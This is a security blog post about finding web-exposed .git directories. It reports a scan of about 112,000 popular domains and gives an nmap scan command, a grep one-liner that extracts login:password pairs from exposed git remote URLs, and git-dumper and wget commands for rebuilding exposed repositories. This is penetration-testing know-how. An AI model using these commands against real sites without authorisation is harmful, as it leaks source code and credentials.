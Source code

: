 ```yaml
---
layout: post
title:  "Gathering some information on web exposed git repositories"
date:   2018-08-05
categories: web
---
```

Hello folks,  
  
Last week, while i was doing recon on some websites, i noticed that we can still found some versioning repositories in production. I found some classic **.git** exposed, and in a lesser extent some **.svn** directories. I decided to gather a bunch of websites caught in the TOP Alexa in order to look for the proportion of .git exposed; with **112332** domains scanned (mixed TLDs), i found **453** .git exposed, which is only **0.4%**. Not bad.  

How to scan for web exposed git directories:  
```nmap --open -PN -n -p80,81,82,8000,8080,443,8443,9443 --script http-git -oA http-git -iL domains.lst```  
  
*N.B: this NSE script will perform HTTP requests thanks to input FQDNs (vhosting)*  
  
Some developers may clone repository specifying their login and password as part of the url, setting this remote origin in the git configuration. For example, once your nmap done, you can spot some login:password playing with this command:  

```
# grep -A1 Remotes http-git.nmap | grep -E ":.*:[^:]*@.*" | awk '{print $2}'
https://apixxxxxx:[redacted]@github.com/apixxxxxx/apixxxxxx.git
http://deploy:[redacted]@10.0.0.4:7990/scm/[redacted]/portal.git
...
```
  
However i was looking for other information, for example:  
 - repository's activity; last commit date for each branch
 - repo directory traversal (great to download the whole repo)
 - highlights remote url
 - displays .git/config and .gitignore files
  
Knowing a bit of a [.git repository layout](https://git-scm.com/docs/gitrepository-layout) will allow to easily retrieve this information even if you don't have any directory traversal. That's why i created a bash script gathering this information which you can find [here](https://github.com/phackt/pentest#user-content-git).  
  
![image1]({{ site.url }}/public/images/git-exposed/gittool.png)
  
If a repository seems interesting and has directory traversal and/or leaks in its remote url some credentials, you can simply download or clone the repository. For example to download the whole repo you can do the following:  
```
wget --recursive --no-parent http://localhost/phackt.github.io/.git/ && \
cd localhost/phackt.github.io && \
git reset --hard
```  
  
Now what happens if you didn't find any creds (most of the cases) and **directory traversal is not enabled** ? I will not reinvent the wheel and advice you to read this [article](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) amongst others.  

```
# curl -I http://localhost/phackt.github.io/.git/
HTTP/1.1 403 Forbidden
Date: Sat, 11 Aug 2018 17:00:04 GMT
Server: Apache/2.4.33 (Debian)
Content-Type: text/html; charset=iso-8859-1
```  
  
I gave a try to another git dumper tool:  
  
```
git clone https://github.com/phackt/git-dumper && cd git-dumper
pip install -r requirements.txt
./git-dumper.py http://localhost/phackt.github.io/.git/ /tmp/repo
[-] Testing http://localhost/phackt.github.io/.git/HEAD [200]
[-] Testing http://localhost/phackt.github.io/.git/ [403]
[-] Fetching common files
[-] Fetching http://localhost/phackt.github.io/.git/COMMIT_EDITMSG [200]
[-] Fetching http://localhost/phackt.github.io/.git/description [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/commit-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-commit.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-receive.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-commit.sample [200]
...
[-] Running git checkout .
```  
  
We can now inspect our freshly rebuilt repository:  

```
cd /tmp/repo && ls -1
about.md
categories.md
CNAME
_config.yml
feed.xml
_includes
index.html
_layouts
POC
_posts
public
_sass
```  
  
See you soon,  
Cheers.